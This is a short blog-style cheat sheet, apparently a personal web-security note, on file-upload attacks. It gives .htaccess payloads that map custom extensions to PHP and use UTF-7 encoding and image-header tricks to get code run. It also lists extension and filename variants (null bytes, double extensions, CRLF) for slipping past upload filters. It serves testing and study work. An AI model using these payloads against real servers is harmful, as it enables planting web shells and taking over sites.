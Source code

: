 ```yaml
---
layout: post
date: 2021-06-09 00:00:00
title: "Web Note (Update 2021.06.09)"
categories: Note
tags: [CheatSheet]
author:
  - Jeongwon Jo
---
```

## .htaccess<br>

```
php_flag engine off
```
```
AddType application/x-httpd-php .pocas
```
```
php_flag zend.multibyte 1
php_value zend.script_encoding "UTF-7"
php_value auto_append_file .htaccess
#+ADw?php phpinfo()+ADs
```
```
#define test_width 1337
#define test_height 1337
AddType application/x-httpd-php .pocas
php_flag zend.multibyte 1
php_value zend.script_encoding "UTF-7"
```
```
#define width 1337
#define height 1337

AddType application/x-httpd-php .pocas
php_value zend.multibyte 1
php_value zend.detect_unicode 1
php_value display_errors 1
```

---
## Upload Function<br>
<span style="color:#21C587">&#35;</span><strong> Blacklisting Bypass</strong><br>
- PHP → `.php`, `.phtm`, `phtml`, `.phps`, `.pht`, `.php2`, `.php3`, `.php4`, `.php5`, `.shtml`, `.pahr`, `.pgif`, `.inc`<br>
- ASP → `.asp`, `.aspx`, `.cer`, `.asa`<br>
- JSP → `.jsp`, `.jspx`, `.jsw`, `.jsv`, `jspf`<br>

<span style="color:#21C587">&#35;</span><strong> Whitelisting Bypass</strong><br>
- file.jpg.php
- file.php.jpg
- file.php.blah123jpg
- file.php%00.jpt
- file.php\x00.jpt
- file.php%00
- file.php%20
- file.php%0d%0a.jpg
- file.php/
- file.php.\

---